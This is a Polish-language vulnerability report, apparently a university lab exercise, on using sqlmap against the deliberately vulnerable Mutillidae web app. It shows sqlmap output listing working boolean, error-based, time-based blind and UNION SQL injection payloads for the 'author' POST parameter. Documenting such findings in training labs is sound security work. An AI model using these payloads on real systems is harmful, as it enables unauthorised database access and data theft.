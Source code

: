 ## Nazwa podatności: SQLMAP Practice (SQL Injcetion - error-based oraz time-based blind)

**Istotność:** 10

---

**Opis:**
SQLMap to potężne narzędzie do automatycznego wykrywania i wykorzystywania podatności SQL Injection w aplikacjach internetowych. Jest napisane w języku Python i umożliwia atakującemu przeprowadzenie zautomatyzowanych testów penetracyjnych, identyfikując luki w zabezpieczeniach aplikacji, które mogą prowadzić do wstrzykiwania kodu SQL.

---

**Technika eksploatacji:**
Po wybraniu z listy rozwijanej użytkownika, którego blog chce się zobaczyć wysyłane jest poniższe zapytanie POST na serwer:
![image](https://github.com/GrzechuG/PWR-CBE-BAW-mutillidae-2024/assets/28838004/5e298ba7-8a60-47bc-ab5a-d2da964b306b)

Utworzono plik request.txt z zawartością powyższego zapytania.
![image](https://github.com/GrzechuG/PWR-CBE-BAW-mutillidae-2024/assets/28838004/d430c661-7a72-42cf-8d33-dc39255b3728)

Atakowanymi parametrami są oraz `author` oraz `view-someones-blog-php-submit-button`.

Jak poniżej uruchomiono narzędzie sqlmap:
![image](https://github.com/GrzechuG/PWR-CBE-BAW-mutillidae-2024/assets/28838004/163e2db8-bdf8-48d3-9057-1086ed0c81ca)

Wykryło ono, iż parametr `author` jest podatnym parametrem. Ostatecznym wynikiem działania programu sqlmap jest:
```sqlmap identified the following injection point(s) with a total of 83 HTTP(s) requests:
---
Parameter: author (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: author=admin' AND 2783=2783#&view-someones-blog-php-submit-button=View Blog Entries

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: author=admin' AND (SELECT 9586 FROM(SELECT COUNT(*),CONCAT(0x7176717671,(SELECT (ELT(9586=9586,1))),0x716b706b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- OhCA&view-someones-blog-php-submit-button=View Blog Entries

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: author=admin' AND (SELECT 3065 FROM (SELECT(SLEEP(5)))GkAB)-- URoT&view-someones-blog-php-submit-button=View Blog Entries

    Type: UNION query
    Title: MySQL UNION query (random number) - 4 columns
    Payload: author=admin' UNION ALL SELECT 5318,5318,5318,CONCAT(0x7176717671,0x654b6f75534a4f4a415a596e4169706d436365645a45524d764b5a5078554c415779684b6b744351,0x716b706b71)#&view-someones-blog-php-submit-button=View Blog Entries
---
```


